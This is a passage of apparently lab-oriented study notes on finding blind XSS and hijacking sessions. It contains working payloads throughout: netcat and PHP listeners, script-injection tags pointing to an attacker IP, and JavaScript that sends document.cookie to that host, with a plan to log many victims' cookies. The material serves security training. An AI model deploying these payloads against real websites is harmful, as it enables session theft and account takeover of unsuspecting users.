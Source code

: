- Various payloads start with an injection like `'>`, which may or may not work depending on how our input is handled in the backend.
- If we had access to the source code (i.e., in a DOM XSS), it would be possible to precisely write the required payload

Before sending payloads, we can start a listener using `nc` or `php`:
```bash
nc -lnvp 80
```
```php
mkdir /tmp/tmpserver
cd /tmp/tmpserver
sudo php -S 0.0.0.0:80
```

Now we can start testing these payloads one by one by using one of them for all of input fields and appending the name of the field after our IP, as mentioned earlier, like:
```html
<script src=http://OUR_IP/fullname></script> #this goes inside the full-name field
<script src=http://OUR_IP/username></script> #this goes inside the username field
etc... etc...
```

Once we submit the form, we wait a few seconds, and if nothing calls our server, then we can proceed to the next payload.

Once we receive a call to our server, we should note the last XSS payload we used as a working payload and note the input field name
## Session Hijacking Attack
```
javascript:eval('var a=document.createElement(\'fullname\');a.src=\'http://10.10.15.243/\';document.body.appendChild(a)')
```

Requires a JavaScript payload to send us the required data and a PHP script hosted on our server to grab and parse the transmitted data.

There are multiple JavaScript payloads we can use to grab the session cookie and send it to us, as shown by [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#exploit-code-or-poc):
```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;

new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

We can write any of these JavaScript payloads to `script.js`, which will be hosted on our VM.

Now, we can change the URL in the XSS payload we found earlier to use `script.js`.
```html
<script src=http://OUR_IP/script.js></script>
```

With our PHP server running, we can now use the code as part of our XSS payload, send it in the vulnerable input field, and we should get a call to our server with the cookie value.

If there were many cookies, we may not know which cookie value belongs to which cookie header. So, we can write a PHP script to split them with a new line and write them to a file.
- In this case, even if multiple victims trigger the XSS exploit, we'll get all of their cookies ordered in a file.
